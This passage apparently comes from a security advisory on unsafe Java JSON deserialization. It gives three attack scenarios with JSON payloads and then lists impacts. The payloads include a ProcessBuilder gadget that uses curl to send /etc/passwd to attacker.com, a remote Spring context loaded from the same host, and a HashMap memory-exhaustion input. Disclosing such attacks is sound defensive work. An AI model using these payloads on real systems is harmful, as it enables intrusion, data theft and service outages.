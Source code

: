 ```json
["java.lang.ProcessBuilder", ["bash", "-c", "curl -d \"$(cat /etc/passwd)\" https://attacker.com/exfil"]]

```

When this payload is deserialized, it executes the specified command, exfiltrating sensitive system information to the attacker's server.

**Scenario 2: Data Exfiltration via Property Access**
The attacker targets internal data by crafting a payload that leverages Java Beans property access patterns. They create a JSON structure that instantiates a class with access to sensitive configuration:

```json
["org.springframework.context.support.ClassPathXmlApplicationContext", "https://attacker.com/malicious-context.xml"]

```

This payload loads a malicious Spring context definition from the attacker's server, which can be configured to expose internal application data, environment variables, or database credentials.

**Scenario 3: Denial of Service via Resource Exhaustion**
The attacker crafts a payload designed to consume excessive system resources:

```json
["java.util.HashMap", {"f":1, "b":"x", "threshold":0.75, "loadFactor":0.75, "size":2147483647}]

```

This attempt to create an enormously sized HashMap consumes available memory on the application server, causing severe performance degradation or complete service outage for all users.

# Impact Analysis
**Business Impact:**
- Unauthorized access to sensitive customer and business data stored or processed by the application
- Potential breach of regulated information (PII, PHI, financial data) leading to compliance violations
- Financial impact from breach reporting, remediation costs, and potential regulatory fines
- Reputational damage if breaches are disclosed or service disruptions occur
- Legal liability from affected customers or partners
- Business continuity risks if critical services are compromised or disrupted
- Intellectual property theft if proprietary algorithms or business logic is exposed

**Technical Impact:**
- Remote code execution allowing attackers to run arbitrary commands with the privileges of the application
- Complete application compromise including unauthorized read/write access to all data
- Potential access to internal network resources if the application has access to other systems
- Data theft, manipulation, or destruction affecting application integrity
- Ability to establish persistence through backdoors, scheduled tasks, or other mechanisms
- Lateral movement to other systems within the network infrastructure
- Authentication bypass by accessing or modifying credential stores
- Logging and monitoring evasion by manipulating application logs
- Denial of service affecting availability of critical business functions
